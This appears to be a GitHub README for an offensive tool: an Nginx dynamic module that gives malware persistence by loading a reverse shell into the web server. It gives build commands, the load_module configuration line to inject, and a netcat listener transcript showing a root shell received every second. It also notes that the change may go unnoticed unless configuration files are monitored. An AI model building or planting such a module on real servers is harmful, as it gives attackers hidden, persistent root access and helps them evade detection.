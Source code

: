 # this-is-not-a-rootkit-nginx-persistence
An Nginx module for persistent malware

# FAQ

1. Why this?

> That's just another potential technique for malware persistence. It's not magic, and if your targeted system is careful enough to monitor file modifications on Nginx configurations, you will be detected unless you bypass that.

2. How does it work?

> We simply add a [dynamic module](https://www.nginx.com/products/nginx/modules/) a to Nginx process. Specifically, one would upload the Nginx dynamic module with your malicius code, and use the `load_module` instruction in Nginx configuration.

3. What can I do with this?

> Pretty much use it in Capture The Flag or something, there is a chance no one will notice it. Currently, and no promises made, this is only a module template with a reverse shell from [PayloadAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c). If you read the code at [persistence-module/ngx_http_server_module.c](/persistence-module/ngx_http_server_module.c), you will probably agree with me. Now that you understand that, and know how to code C, you can do whatever you want, however you want!

# How to run

I should hope you are able to read the code, dear developer, and be encouraged to read it, specially the module source code at [persistence-module/ngx_http_server_module.c](/persistence-module/ngx_http_server_module.c). Now that you understand it superficially, you can compile the dynamic module using Docker! Run the following command:

```bash
docker compose run builder
```

You will notice a directory called `objs` created in your current directory. The dynamic module will be located at `objs/ngx_http_server_module.so`.

Now, add `load_module` instruction into your Nginx configuration, like this example:

```conf
user  nginx;
worker_processes  auto;

load_module /opt/objs/ngx_http_server_module.so; # <--- Change the path to the module

error_log  /var/log/nginx/error.log notice;
pid        /var/run/nginx.pid;


events {
    worker_connections  1024;
}


http {
    include       /etc/nginx/mime.types;
    default_type  application/octet-stream;

    log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log  /var/log/nginx/access.log  main;

    sendfile        on;
    #tcp_nopush     on;

    keepalive_timeout  65;

    #gzip  on;

    include /etc/nginx/conf.d/*.conf;
}
```

Now what? If you carefully read the code, you will see that the module code is a simple reverse shell on `localhost` port 9001. If you start the module and start a listener, you will receive a reverse shell as root every second:

```bash
$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 40414
id
uid=0(root) gid=0(root) groups=0(root)
```

# Troubleshooting

```conf
2023/05/15 03:03:08 [emerg] 666#666: module "/ngx_http_server_module.so" version 1024000 instead of 1023004 in /etc/nginx/nginx.conf:5
nginx: [emerg] module "/ngx_http_server_module.so" version 1024000 instead of 1023004 in /etc/nginx/nginx.conf:5
```

By default, we compile the dynamic module on Nginx version 1.24 (see Dockerfile). You must compile the module for the version of your targeted Nginx version.

